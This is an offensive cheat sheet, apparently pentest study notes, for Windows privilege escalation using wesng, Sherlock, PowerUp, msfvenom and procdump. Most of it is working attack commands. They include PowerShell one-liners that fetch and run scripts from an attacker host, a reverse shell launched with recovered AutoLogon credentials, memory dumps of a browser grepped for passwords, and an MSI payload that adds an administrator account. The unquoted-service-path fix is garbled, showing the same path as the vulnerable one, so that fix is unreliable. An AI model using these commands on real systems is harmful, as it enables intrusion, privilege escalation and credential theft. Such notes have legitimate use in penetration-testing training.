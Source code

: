 # Privesc Openings

## Windows Exploiter Suggester

```bash
# https://github.com/bitsadmin/wesng

# 1. Copy and paste into system.txt in kali
Systeminfo	

# 2. Update windows exploit suggester. Will generate a .xls file 
python windows-exploit-suggester.py --update	

# 3. Start suggesting an exploit
python windows-exploit-suggester.py --database <generated xls> --systeminfo system.txt	

```

## Sherlock

### Find All Vulns

```c
# find-allvulns 1
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/Sherlock.ps1')	
find-allvulns

# find-allvulns 2
powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; find-allvulns}"	


```

### PowerUp Invoke-AllChecks

```c
# Start powershell
powershell.exe -exec bypass	

# Download powerup
(New-Object Net.WebClient).DownloadFile('http://10.10.14.32/PowerUp.ps1','C:\Users\Destination\Folder\PowerUp.ps1')	

# Import script
Import-Module .\PowerUp.ps1	

# Start checks
Invoke-AllChecks	
```

#### Alternatively

```c
# Download
powershell (new-object net.webclient).downloadfile('http://10.10.14.32/PowerUp.ps1','C:\Users\tolis\Videos\PowerUp.ps1')

# Import Module
powershell Import-Module .\PowerUp.ps1

# start Checks
Powershell Invoke-AllChecks

# oneliner to start checks
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

## DLL Hijacking \(PowerUp\)

```c
# With powershell/Powerup
Find-ProcessDLLHijack
Find-PathDLLHijack
Write-HijackDll 

```

## Dump Process

Dump process \(eg. Browser\) to find credentials. Transfer to kali and 'Strings' grep for login or passwords

```bash
# powershell 
Get-Process firefox

# Kali
.\procdump64.exe -accepteula -ma <PID> <DumpName.dmp>

Strings <DumpName.dmp> | grep login
Strings <DumpName.dmp> | grep password
```

## Using Token and AutoLogon creds

PowerUp Invoke-AllCheck should find plaintext pass. Create privilege object to run reverse shell.

```c
# With powershell/Powerup
Get-RegistryAutoLogon

#Create credential object
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('administrator',$SecPass)

# Call reverse shell using credentials
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/HackedAgain.ps1')" -Credential $cred
```

## "AlwaysInstallElevated" privesc

Always Install Elevated to create privesc user after installation.

```c
# for HKCU registry
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# or HKLM registry
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# With powershell/PowerUp)
Import-Module Privesc
Get-RegistryAlwaysInstallElevated


# Create msfvenom setup file
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi-nouac -o setup.msi

#Run in victim machine
msiexec /quiet /qn /i setup.msi
```

## ICALCS 

Look for Folder permissions for \(W\) permissions. Overwrite with binary payload. For WinXP and Below: use cacls

```c
icacls "C:\Program Files (x86)\Program Folder" 
```

## Unquoted Service Paths

Privesc by uploading binary payload in service path to be executed eg. By service start/stop or reboot.   
How? Suppose we found: `C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe`If you look at the registry entry for this service with Regedit you can see the ImagePath value is: `C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe` 

To be prevent it being exploited, the path should have been:  `C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe` When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find in sequence, hitting our exploit payload.

```text
C:\Program.exe
C:\Program Files.exe
C:\Program Files(x86)\Program Folder\A.exe
```

